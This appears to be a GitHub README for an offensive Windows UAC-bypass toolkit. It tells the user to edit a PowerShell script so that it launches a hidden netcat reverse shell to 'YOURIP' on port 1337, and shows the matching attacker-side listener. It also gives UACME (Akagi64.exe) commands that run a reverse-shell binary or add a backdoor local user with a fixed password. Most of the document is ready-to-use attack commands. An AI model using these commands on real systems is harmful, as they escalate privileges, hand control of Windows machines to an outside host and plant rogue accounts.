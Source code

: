 # Bypass UAC 

Before importing the file, please edit the "**BypassUACfodhelper.ps1**" file in the following section:: 

```
$CMD = "powershell -windowstyle hidden C:\Windows\Temp\nc.exe YOURIP 1337 -e cmd"
```

### Execute
```
kali@unix:/$ rlwrap nc -lvp 1337
```

```
Windows (Poweshell)> . .\BypassUACfodhelper.ps1
Windows (Poweshell)> UACBypass1
OR
Windows (Poweshell)> UACBypass2
```

## Alternative: UACME

Download binary Akagi64.exe or Akagi32.exe: [https://github.com/yuyudhn/UACME-bin](https://github.com/yuyudhn/UACME-bin)

### Execute
```
Windows (CMD)> Akagi64.exe 33
OR
Windows (CMD)> Akagi64.exe 53 C:\Windows\Temp\rev.exe
OR
Windows (CMD)> Akagi64.exe 61 "net user 0xshdax passW0rd! /add"
```
### Basic UACME

| Method Id | Bypass technique                        |
|-----------|-----------------------------------------|
|     33    |              fodhelper.exe              |
|     34    |        DiskCleanup scheduled task       |
|     70    | fodhelper.exe using CurVer registry key |

Read more UACME: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
